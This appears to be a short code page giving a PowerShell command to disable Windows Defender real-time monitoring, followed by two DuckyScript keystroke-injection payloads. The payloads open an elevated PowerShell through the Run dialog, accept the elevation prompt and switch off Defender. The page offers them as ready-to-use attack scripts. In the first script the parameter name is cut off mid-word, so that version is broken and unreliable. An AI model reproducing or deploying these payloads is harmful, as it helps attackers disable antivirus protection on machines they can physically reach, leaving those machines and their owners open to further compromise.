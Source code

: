 Windows defender can be disabled with PS using the following command

```ps
Set-MpPreference -DisableRealtimeMonitoring $true
```

Example scripts:

_Dec 24, 2018_ 
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
DELAY 1000
ALT y
```

Note: line with "ALT y" may not be required and could lead to error in the next line.  
_Apr 23, 2018_
```
REM Windows 10: Disable Windows Defender with Powershell
REM Author: Judge2020
REM author website: Judge2020.com
REM  
REM let the HID enumerate
DELAY 1000
GUI r
DELAY 200
REM my best attempt at a elevated powershell instance
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 1000
ALT y 
DELAY 200
STRING Set-MpPreference -DisableRealtimeMonitoring $true
ENTER
STRING exit
ENTER
```
